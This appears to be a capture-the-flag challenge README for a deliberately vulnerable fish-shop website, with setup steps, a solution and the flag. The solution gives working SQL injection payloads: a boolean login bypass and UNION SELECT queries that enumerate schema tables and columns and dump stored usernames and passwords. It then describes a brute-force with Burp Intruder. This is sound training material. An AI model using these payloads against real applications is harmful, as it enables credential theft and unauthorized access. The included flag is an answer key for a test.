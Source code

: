 # Fish Shoup

## Question Text

>Help all marshmellow fart and skittle burp fishes!!!
>
>We forgot the credentials of our blog account because we have small brains!
>
>Log into it to get your awesome reward of helping us, we are nice creatures!
>
>But remember to keep it a secret! Shhh...
>http://web.chal.gryphonctf.com:17562

## Created by

@stopduckroll &amp; @paux &amp; @platy

## Setup Guide
Do `bash build.sh`

(It takes 15 seconds for the sql server to initialise. Everything should work after awhile)

## Distribution
None.

## Solution

1. When you first see the site, you will notice that you can search for fishes and also login
2. When you enter `'OR'1==1'#` you will notice that all entries comes out, meaning its vulnerable to sql injection
3. To view database name `asdf' UNION ALL SELECT null,null,database(),null,null #`
4. You can then use that to enter malicious sql code to view all table names `asdf' UNION ALL SELECT null,null,table_name,null,null FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'fishshoups' #`
5. From there you realise that there is a table storing user details,run this to see the collumn names `asdf' UNION ALL SELECT null,null,column_name,null,null FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'user_details_login' #` 
6. Crafting a new malicious string `asdf' UNION ALL SELECT null,user,password,null,role FROM user_details_login #` will allow you to see all the usernames
7. Now with all the username and passwords, you can use burpsuite to perform a "intruder attack on it"
8. Put the two payloads and put a regex for `GCTF`
9. Get flag

### Flag
`GCTF{m00ny_607_17}`


## Credits
CTF 101.

Thanks @Lflare for fixing mysql issues.

